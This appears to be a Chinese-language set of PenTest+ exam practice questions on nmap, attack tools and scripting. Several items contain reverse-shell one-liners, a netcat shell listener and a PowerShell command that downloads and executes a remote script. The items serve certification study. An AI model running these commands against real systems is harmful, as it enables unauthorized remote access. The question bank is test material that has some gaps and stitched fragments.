### 40. 哪个 `nmap` 选项让工具通过代理服务器转发连接？

1. `--proxies`
2. `-S`
3. `-D`
4. `-g`

### 41. 查看以下图片：



哪些 `nmap` 命令可能生成此输出？（选择两个）

1. `nmap 10.0.0.1`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sL`
4. `nmap 10.0.0.1 -sn`

### 42. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？

1. `nmap 10.0.0.1 -PA`
2. `nmap 10.0.0.1 -sT`
3. `nmap 10.0.0.1 -sL`
4. `nmap 10.0.0.1 -sn`

### 43. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？

1. `nmap 10.0.0.1`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sU`
4. `nmap 10.0.0.1 -sT`

### 44. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？

1. `nmap 10.0.0.1 -sA`
2. `nmap 10.0.0.1 -sS`
3. `nmap 10.0.0.1 -sU`
4. `nmap 10.0.0.1 -sT`

### 45. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？

1. `nmap 10.0.0.5 -v`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 -sU`
4. `nmap 10.0.0.5 -sT`

### 46. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？

1. `nmap 10.0.0.5`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 -sU -vv`
4. `nmap 10.0.0.5 -sT -v`

### 47. 查看以下图片：



哪个 `nmap` 命令可能生成此输出？


1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –Pn`
4. `nmap 10.0.0.1-10 –PS`

48. 请考虑以下图片：



使用哪个 `nmap` 命令可以生成此输出？

1. `nmap 10.0.0.1-10`
2. `nmap 10.0.0.1-10 -sL`
3. `nmap 10.0.0.1-10 –sn`
4. `nmap 10.0.0.1-10 –PR`

49. 请考虑以下图片：



使用哪个 `nmap` 命令可以生成此输出？

1. `nmap 10.0.0.1-10 –p 80`
2. `nmap 10.0.0.1-10 -F`
3. `nmap 10.0.0.1-10 –sn 80`
4. `nmap 10.0.0.1-10 –p-`

50. 请考虑以下图片：



使用哪个 `nmap` 命令可以生成此输出？

1. `nmap 10.0.0.5`
2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 –sV`
4. `nmap 10.0.0.5 –sT`

51. 作为渗透测试的一部分，你需要对目标组织进行侦察，以被动地收集信息。你可以使用哪些工具来完成操作？（选择两个。）

1. `whois`
2. `Metasploit Framework`
3. `OpenVAS`
4. `nslookup`
5. `Nessus`

52. 作为渗透测试的一部分，你需要与目标组织的计算机系统和设备建立活动连接，以对其进行枚举和指纹识别。你可以使用哪些工具来完成操作？（选择两个。）

1. `whois`
2. `nmap`
3. `hping`
4. `Aircrack-ng`
5. `John the Ripper`

53. 作为渗透测试的一部分，你需要从 Linux 服务器的 `passwd` 和 `shadow` 文件中收集用户用户名和密码。你可以使用哪些工具来完成操作？（选择两个。）

1. `John the Ripper`
2. `Cain and Abel`
3. `Kismet`
4. `Censys`
5. `Recon-ng`

54. 作为渗透测试的一部分，你需要对目标进行深度扫描，以识别漏洞（例如缺失的更新或安全设置配置错误）。你可以使用哪些工具来完成操作？

1. `Censys`
2. `theHarvester`
3. `Shodan`
4. `OWASP ZAP`
5. `Nessus`

55. 一渗透渗透测试人员正在为客户进行灰盒测试。该测试人员决定对 SQL 数据库进行暴力破解攻击。可以使用哪个工具来完成操作？

1. `John the Ripper`
2. `SQLmap`
3. `WiFite`
4. `Nikto`

56. 一渗透测试人员正在为客户进行灰盒测试。该测试人员想要尝试生成一个 Kerberos “黄金票据”（golden ticket），以攻破目标 Active Directory 域内的服务。可以使用哪个工具来完成操作？

1. `Mimikatz`
2. `John the Ripper`
3. `W3AF`
4. `ncat`

57. 下列哪些工具可以归类为漏洞扫描器？（选择两个。）

1. `Nikto`
2. `SET`
3. `W3AF`
4. `Medusa`
5. `Hydra`

58. 下列工具通常用于执行密码暴力破解攻击？（选择两个。）

1. `BeEF`
2. `Drozer`
3. `W3AF`
4. `Medusa`
5. `Hydra`

59. 下列哪些可以执行密码暴力破解攻击？（选择两个。）

1. `Empire`
2. `Patator`
3. `Powersploit`
4. `Aircrack-ng`
5. `APK Studio`

60. 下列哪些渗透工具是基于 Windows PowerShell 的？（选择两个。）

1. `BeEF`
2. `SET`
3. `Empire`
4. `PowerSploit`
5. `Hopper`

61. 哪个工具用于进行社会工程攻击？

1. `Responder`
2. `SET`
3. `APKX`
4. `Immunity debugger`
5. `Hopper`

62. 哪种渗透测试工具专注于利用 Web 浏览器？

1. `BeEF`
2. `foremost`
3. `FTK`
4. `EnCase`
5. `Tableau`

63. 作为渗透测试的一部分，你需要访问目标服务器上的一个 shell。可以使用哪个工具？

1. `Ollydbg`
2. `GDB`
3. `WinDBG`
4. `ncat`

64. 作为渗透测试的一部分，你想要反编译应用程序。以下哪些工具可以使用？（选择两个。）

1. `IDA`
2. `Hopper`
3. `route`
4. `Tableau`

65. 下列哪些工具用于收集数字证据？（选择两个。）

1. `APKX`
2. `Peach`
3. `foremost`
4. `AFL`
5. `FTK`

66. 下列哪个工具可以确保合规性？

1. `Nikto`
2. `Tableau`
3. `AFL`
4. `IDA`

67. 在黑盒渗透测试期间，你发现目标组织的无线网络信号延伸到了停车场和街对面。你想利用这个无线电电信号访问内部网络。然而，该无线网络是加密的。你可以使用哪些无线破解工具来完成操作？（选择两个。）

1. `searchsploit`
2. `netcat`
3. `OWASP ZAP`
4. `WiFite`
5. `Kismet`


### 79. 在灰盒渗透测试中，测试人员需要在目标组织的 Web 应用服务器与运行 浏览器的客户端系统之间建立代理连接。测试人员可以使用哪些 Web 代理渗透测试工具来实现这一点？（选择两个。）

1. `searchsploit`
2. `Burp Suite`
3. `OWASP ZAP`
4. `Impacket`
5. `Empire`

### 80. 在灰盒渗透测试中，测试人员希望能够设置一个反向 shell（reverse shell）漏洞，使目标网络上的受攻击系统“回家”连接到在测试人员笔记本电脑上设置的监听器，以便测试人员远程控制该受攻击系统。可以使用哪种远程访问工具来实现这一点？

1. `netcat`
2. `Responder`
3. `Impacket`
4. `BeEF`

### 81. 哪种远程访问工具是由开发 `nmap` 的组织创建的，作为 `netcat` 工具的更新版本并支持加密数据隧道？

1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`

### 82. 在灰盒渗透测试中，测试人员希望能够设置一个绑定 shell（bind shell）漏洞，即在目标上的受攻击系统上设置监听器。可以使用哪些远程访问工具来实现这一点？

1. `ncat`
2. `netcat`
3. `Powersploit`
4. `DAST`
5. `SAST`

### 83. 哪种移动工具提供了一个可以用于运行 Android 操作系统的移动设备的攻击框架？

1. `APKX`
2. `APK Studio`
3. `Drozer`
4. `DAST`

### 84. 哪种移动工具可以用于逆向工程运行 Android 操作系统的移动设备的 APK 文件？

1. `Peach`
2. `APK Studio`
3. `Drozer`
4. `DAST`

### 85. 哪种移动工具是一个 Python 封装器，可以直接从 Android APK 可执行文件中提取 Java 源代码？

1. `APKX`
2. `AFL`
3. `Drozer`
4. `DAST`

### 86. 哪种渗透测试工具是用于在线 Exploit-DB 数据库已知漏洞的命令行搜索工具？

1. `findbugs`
2. `Shodan`
3. `Censys`
4. `Searchsploit`

### 87. 在灰盒渗透测试中，测试人员希望对目标组织的域控制器进行查询投毒，以便将客户端请求重定向到测试人员的笔记本电脑并捕用户名和哈希密码。可以使用哪种工具来实现这一点？

1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`

### 88. 哪种渗透测试工具由一组 Python 类组成，用于低层访问网络协议（如 `SMB`）？

1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`

### 89. 哪种渗透测试工具为渗透测试人员提供了大量的漏洞，可用于破坏目标组织的网络？

1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`

### 90. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量的语句：

* `ServerName = FS1`

* 这可能是哪种类型的脚本？（选择两个。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 91. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量的语句：

* `$ServerName = FS1`

* 这可能是哪种类型的脚本？（选择两个。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 92. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量的语句：

* `_ServerName = FS1`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 93. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组的语句：

* `PrimeNumArray = [2, 3, 5, 7, 11]`

* 这可能是哪种类型的脚本？（选择两个。）

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 94. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组的语句：

* `PrimeNumArray = (2, 3, 5, 7, 11)`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 95. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组的语句：

* `$PrimeNumArray = @(2, 3, 5, 7, 11)`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 96. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量的语句：

* `ServerName = FS1`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 97. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中第二个元素的语句：

* `PrimeNumArray[2]`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 98. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中第二个元素的语句：

* `$PrimeNumArray[2]`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 99. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中第二个元素的语句：

* `(PrimeNumArray[2])`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 100. 在读取一个可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中第二个元素的语句：

* `PrimeNumArray[2]`

* 这可能是哪种类型的脚本？

1. `PowerShell`
2. `Bash`
3. `Ruby`
4. `Python`

### 101. 在灰盒渗透测试中，测试人员希望能够创建一个 `Bash` 脚本来执行目标组织漏洞。在脚本中，测试人员希望在关联数组的名为 `HostName` 的元素中插入 `FS1`。使用哪行代码可以实现这一点？

* `Target[HostName] = FS1`
* `Target = {"HostName":"FS1"}`
* `$Target.HostName = 'FS1'`
* `_Target = {"HostName" => "FS1"}`

### 102. 在灰盒渗透测试中，测试人员希望能够创建一个 `Ruby` 脚本来执行目标组织漏洞。在脚本中，测试人员希望在关联数组的名为 `HostName` 的元素中插入 `FS1`。使用哪行代码可以实现这一点？

* `Target[HostName] = FS1`
* `Target = {"HostName":"FS1"}`
* `$Target.HostName = 'FS1'`
* `_Target = {"HostName" => "FS1"}`

### 103. 在灰盒渗透测试中，测试人员希望能够创建一个 `PowerShell` 脚本来执行目标组织漏洞。在脚本中，测试人员希望在关联数组的名为 `HostName` 的元素中插入 `FS1`。使用哪行代码可以实现这一点？

* `Target[HostName] = FS1`
* `Target = {"HostName":"FS1"}`
* `$Target.HostName = 'FS1'`
* `_Target = {"HostName" => "FS1"}`


### 104
作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要将 `FS1` 的值插入到名为 `Target` 的关联数组中名为 `HostName` 的元素中。以下哪行行代码可以实现此操作？

1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

### 105
作为灰盒渗透测试的一部分，你需要创建一个 Ruby 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要对两个变量进行比较，以测试它们是否相等。你应该使用哪种关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

### 106
作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要对两个变量进行比较，以测试它们是否不相等。你可以使用哪些关系运算符？（选择两个。）

1. `<>`
2. `==`
3. `-eq`
4. `!=`
5. `-ne`

### 107
作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要对两个变量进行比较，以测试它们是否相等。你应该使用哪种关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

### 108
作为灰盒渗透测试的一部分，你需要创建一个 PowerShell 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要对两个变量进行比较，以测试它们是否相等。你应该使用哪种关系运算符？

1. `=`
2. `==`
3. `-eq`
4. `!=`

### 109
作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要对两个整数变量进行比较，以测试其中一个在数值上大于另一个。你应该使用哪种关系运算符？

1. `>`
2. `<`
3. `-gt`
4. `!>`

### 110
哪种关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否大于另一个？

1. `>`
2. `<`
3. `-gt`
4. `!>`

### 111
哪种关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否大于或等于另一个？

1. `>=`
2. `-gt`
3. `-ge`
4. `!>=`

### 112
哪种关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否大于另一个？

1. `>=`
2. `-gt`
3. `-ge`
4. `!>=`

### 113
哪种关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否大于或等于另一个？

1. `>=`
2. `-gt`
3. `-ge`
4. `!==`

### 114
哪种关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否小于另一个？

1. `<=`
2. `-lt`
3. `-le`
4. `!`

### 115
哪种关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否小于另一个？

1. `<=`
2. `-lt`
3. `-le`
4. `<`

### 116
哪种关系运算符可以在 Bash 和 PowerShell 中同时用于测试一个值在数值上是否小于或等于另一个？

1. `<=`
2. `-lt`
3. `-le`
4. `!`

### 117
哪种关系运算符可以在 Python 和 Ruby 中同时用于测试一个值在数值上是否小于或等于另一个？

1. `<=`
2. `-lt`
3. `-le`
4. `!`

### 118
你需要创建一个 Bash 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要提示用户输入一个值。哪个命令接受用户输入的值并将其赋值给名为 `TargetHost` 的变量？

1. `echo $TargetHost`
2. `read TargetHost`
3. `readln TargetHost`
4. `input $TargetHost`

### 119
作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来对目标组织执行漏洞利用。作为脚本的一部分，你需要在屏幕上显示名为 `TargetHost` 的变量值。哪个命令可以实现此操作？

1. `echo $TargetHost`
2. `write TargetHost`
3. `writeln TargetHost`
4. `output $TargetHost`

### 120
在 Bash 脚本的 if/then 控制结构中，可以使用哪个命令来评估指定条件是否为真？

1. `eval`
2. `==`
3. `test`
4. `<>`

### 121
考虑以下片段：

```ruby
if x > 2
  puts "greater than 2"
else
  puts "less than 2"
end
```
这是哪种脚本语言？

### 122
考虑以下片段：

```powershell
if ($x -eq 2) {
    "This number is 2"
} else {
    "This number is not 2"
}
```
这是哪种脚本语言？

### 123
考虑以下片段：

```bash
if [ -f $FileName ]; then
    echo "The file exists."
else
    echo "The file does not exist."
fi
```
这是哪种脚本语言？


2. `print (TargetHost)`
3. `writeln TargetHost`
4. `puts TargetHost`

133. 你需要创建一个 Python 脚本，提示用户输入一个值。哪条命令会接受用户输入的值并将其赋值给名为 `TargetHost` 的变量？

1. `TargetHost = input('Please enter a hostname:')`
2. `read TargetHost`
3. `TargetHost = gets`
4. `$TargetHost = read-host -Prompt`

134. Python 脚本中的哪个命令会将名为 `TargetHost` 的变量的值写到屏幕上？

1. `echo $TargetHost`
2. `print (TargetHost)`
3. `writeln TargetHost`
4. `puts TargetHost`

135. 下列哪个元素必须包含在每个 Bash 脚本的开头？

1. `#Comment`
2. `#!/bin/bash`
3. `exit 0`
4. `#begin script`

136. 你在 Linux 系统的主目录下创建了一个名为 `myexploit` 的 Bash 脚本。你该如何执行它？（选择两项。）

1. 在 shell 提示符处输入 `/bin/bash ~/myexploit`。
2. 在 shell 提示符处输入 `myexploit`。
3. 在图形桌面选择计算机 ➢ 运行；然后输入 `~/ myexploit` 并选择运行。
4. 在 shell 提示符处输入 `run ~/ myexploit`。
5. 输入 `chmod u+x ~/ myexploit`；然后在 shell 提示符处输入 `~/ myexploit`。

137. 哪个 Bash 脚本命令会创建一个名为 `TOTAL` 的新变量并将其类型设置为整数？

1. `variable –i TOTAL`
2. `declare –i TOTAL`
3. `declare TOTAL –t integer`
4. `TOTAL=integer`

138. 在 Bash 脚本中，你想将 `tail /var/log/firewall` 命令的标准输出和标准错误发送到当前目录下名为 `lastevents` 的文件中。你可以在脚本中添加哪条命令来实现此目标？

1. `tail /var/log/firewall 1> lastevents 2> lastevents`
2. `tail /var/log/firewall > lastevents`
3. `tail /var/log/firewall 1> lastevents 2> &1`
4. `tail /var/log/firewall 1&2> lastevents`

139. 渗透测试者想要针对 NetBIOS 名称服务。哪条命令最可能被用于利用 NetBIOS 名称服务？

1. `arpspoof`
2. `burpsuite`
3. `nmap`
4. `responder`

140. 渗透测试者想要从公开可用源进行开源情报 (OSINT) 数据收集。以下哪些工具可以使用？（选择两项。）

1. `BeEF`
2. `Dynamo`
3. `Maltego`
4. `SET`
5. `Shodan`
6. `Wireshark`

141. 渗透测试者想对客户端的应用程序进行凭据强制攻击。应该使用以下哪个工具？

1. `Hashcat`
2. `Hydra`
3. `John the Ripper`
4. `Peach`

142. 渗透测试者正尝试攻击一个之前已识别的用户账户的设备。（images/c04f14.jpg）正在测试哪种类型的攻击？

1. `Credential dump`
2. `DLL injection`
3. `Pass the hash`
4. `Reverse shell`

143. 渗透测试者想要使用 Metasploit。以下哪个命令会启动数据库？

1. `db_connect`
2. `db_init`
3. `msfconsole`
4. `msfvenom`

144. 你是一个渗透测试者，你想要在网络上捕获 NTLM v2 哈希值以用于哈希传递（pass-the-hash）攻击。哪个工具不允许你在网络上捕获 NTLM v2 哈希值？_

1. `Ettercap`
2. `Mimikatz`
3. `Metasploit`
4. `Responder`

145. 渗透测试者正在进行测试，并通过端口 `443` 访问了一个无限制的网络。测试者想从客户端创建一个返回测试者的反向 shell。以下哪种方法最可能是测试者将使用的？

1. `bash -i >& /dev/tcp/<DESTINATIONIP>/443`
2. `nc -e /bin/sh <SOURCEIP> 443`
3. `perl -e 'use SOCKET'; $i='<SOURCEIP>; $p='443`
4. `ssh superadmin@<DESTINATIONIP> -p 443`

146. 在渗透测试期间，在受受攻击机器的历史记录中发现了以下行代码：

```
bash -i >& /dev/tcp/192.168.0.10/80
```
哪项最准确地描述了该命令的作用？

1. 执行了端口扫描。
2. 获取 Web 服务器的 banner。
3. 将电打字机 (TTY) 重定向到远程系统。
4. 删除了指定 IP 的错误日志。

147. 测试者捕获了 NTLM 哈希并想要进行哈希传递攻击。遗憾的是，测试者不知道网络上的哪些系统可能接受该哈希值。测试者应该使用哪个工具来进行测试？

1. `Drozer`
2. `Hashcat`
3. `Hydra`
4. `Kismet`

148. 使用渗透测试测试者想要部署一个测试部分的恶意网站，以利用客户端员工的浏览器。该测试可以使用什么工具？

1. `Browser Exploitation Framework (BeEF)`
2. `Metasploit`
3. `Open Web Security Project (OWASP)`
4. `Social Engineer Toolkit (SET)`

149. 你是一个渗透测试者，你正计划利用客户端的网站创建一个关于客户的常用单词和短语的自定义字典文件。你可以利用哪个工具名称来协助构建自定义字典文件？

1. `CeWL`
2. `Hashcat`
3. `Hydra`
4. `Medusa`

150. 渗透测试者正在使用 PowerShell 进行测试。测试者正在使用以下 PowerShell 命令：

```
powershell.exe IEX (New-Object Net.Webclient).downloadstring("http://site/script.ps1");
```
该命令执行了什么操作？

1. 执行一个脚本。
2. 包含一个对象。
3. 运行一个命令。
4. 设置执行策略。

151. 测试者对一台计算机运行了以下 Nmap 扫描：`nmap -sV 192.168.10.5`。客户端表示已禁用了 Telnet。然而，Nmap 扫描显示端口 23 是开启的。可能导致了这种情况？

1. 组织没有禁用 Telnet。
2. `nmap` 结果对端口 23 误报。
3. 服务运行在非标准端口。
4. 端口 22 被过滤。

152. 你是一个渗透测试者，计划使用 `hping` 命令向远程系统发送流量。当你使用以下脚本时，远程系统将看到什么类型的流量？

1. 端口 80 的 HTTP 流量
2. 端口 80 的 HTTPS 流量
3. 端口 80 的 TCP SYN 流量
4. 端口 80 的 TCP 三次握手

153. 渗透测试者正在进行测试并攻破了客户端主机。在该设备上创建 Netcat 监听器的正确语法是什么？

1. `nc -lp 4444 -e /bin/bash`
2. `nc -lvp 4444 /bin/bash`
3. `nc -p 4444 /bin/bash`
4. `nc -vp 4444 /bin/bash`

154. 如果渗透测试者想要扫描已识别设备上的所有 TCP 端口，必须使用哪个 `nmap` 选项？

1. `-p- 1-65535`
2. `-p ALX`
3. `-p 1-65544`
4. `-port 1-65534`

155. 渗透测试者想要对客户的外部域名进行被动侦察。最佳选择是什么？

1. `CeWL`
2. `OpenVAS`
3. `Peach`
4. `Shodan`

156. 渗透测试者成功利用了一个监听输出端口的 DM2 服务器。测试者想将该流量转发回设备。实现此目的的最佳工具是什么？（选择两项。）

1. `Cain and Abel`
2. `Netcat`
3. `Nmap`
4. `Secure Shell (SSH)`
5. `Tcpdump`
6. `Wireshark`


### 157. 一位渗透测试员正在分析一个脚本，以确定为什么脚本没有返回预期的结果。预期的结果应该是 True。

```bash
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```

通过审查脚本，测试员应如何修正错误以返回正确的结果？（选择两项。）

1. 将 `fi'` 改为 `Endlf`
2. 在 `dest=5+5` 前面删除 `let`
3. 将 `=` 改为 `-eq`
4. 将 `-source*` 和 `'dest'` 改为 `"Ssource"` 和 `"Sdest"`
5. 将 `'else'` 改为 `'elif`

### 158. 你是一位渗透测试员，想要使用 PowerShell 脚本创建一个数组。你会使用哪几行代码？

1. `$ports = 20, 25, 80, 443`
2. `ports = (20,25,80,443)`
3. `ports = [20,25,80,443]`
4. `$ports= [20,25,80,443]`

### 159.get 测试员意图在目标系统上运行以下命令：

```bash
bash -i >& /dev/tcp/10.2.4.6/443 0>&1
```

为了使上述命令生效，在测试员的 Linux 系统上可能还需要执行哪条额外命令？

1. `nc -nvlp 443`
2. `nc 10.2.4.6 443`
3. `nc -w3 10.2.4.6 443`
4. `nc-/bin/ah 10.2.4.6 443`

### 160. 在内部渗透测试期间，观察到网络中有多个组播和广播名称解析请求通过。测试员想要伪造网络资源并收集身份验证请求。应该使用什么工具？


1. Ettercap
2. Medusa
3. Tcpdump
4. Responder

### 161. 一位渗透测试员使用 `nmap` 被要求使用公司提供的包含所有 IP 地址列表的文本文件进行 OS 指纹识别。你的代码中需要哪些开关来使用文本文件进行 OS 指纹识别？（选择两项。）

1. `-iL`
2. `-O`
3. `-oN`
4. `-oX`
5. `-sS`
6. `-sV`

### 162. 一位渗透测试员正在使用 Metasploit。哪个命令允许测试员从互联网访问私有网络？

1. `db_nmp -iL /tmp/privatentwk.txt`
2. `run autoroute -a 192.168.1.10/24`
3. `set rhost 192.168.1.10`
4. `use auxiliary/server/socks4a`

### 163. 你是一位渗透测试员，想要在 Windows 网络上捕获用户哈希值。你想收集广播消息，并在捕获到哈希后能够使用哈希进行身份验证。你应该使用什么工具？

1. Impacket
2. Metasploit
3. Responder
4. Wireshark

### 164. 你是一位渗透测试员，想要使用 `nmap` 扫描远程系统。你将使用以下命令：

* `nmap 142.78.32.0/24`
* 你将扫描多少个 TCP 端口？

1. 256
2. 1,000
3. 1,024
4. 65,535

### 165. 你正在编写以下 Python 代码：

```python
if 1 == 1:
   print("howdy")
elif 3 == 3:
   print("howdy")
else:
   print("howdy")
```

这段代码会打印多少次 *howdy* 单词？

1. 0
2. 1
3. 2
4. 3

### 166. 你是一位渗透测试员，想要使用各种过滤器搜索并查看客户连接到互联网的计算机和设备。你可以使用什么工具完成此任务？

1. Censys
2. Shodan
3. theHarvester
4. Whois

### 167. 你是一位渗透测试员，想要搜索并查看客户连接到互联网的计算机和设备，如果可用，它们将为你显示 geoIP 信息。你可以使用什么工具完成此任务？

1. Censys
2. Shodan
3. theHarvester
4. Whois

### 168. 你是一位渗透测试员，正在对一个特定的客户端数据库服务器进行测试。你想检测数据库服务器上的任何漏洞。哪种工具能最好协助你？

1. Nessus
2. Nikto
3. Sqlmap
4. OpenVAS

# 第 5 章

## 报告与沟通

**PENTEST+ 考试涵盖的主题包含：**

#### 领域 5：报告与沟通

* **5.1 在给定场景下，使用报告撰写最佳实践。**
    * 数据归一化
    * 发现的报告与修复
        * 执行摘要
        * 方法论
        * 发现与修复
        * 风险评分
        * 结论
    * 风险偏好
    * 报告存储时间
    * 报告处置

* **5.2 解释报告交付后的活动。**
    * 测试后清理
        * 删除 shell
        * 删除测试生成的凭据
    * 客户验收
    * 教训
    * 后续行动

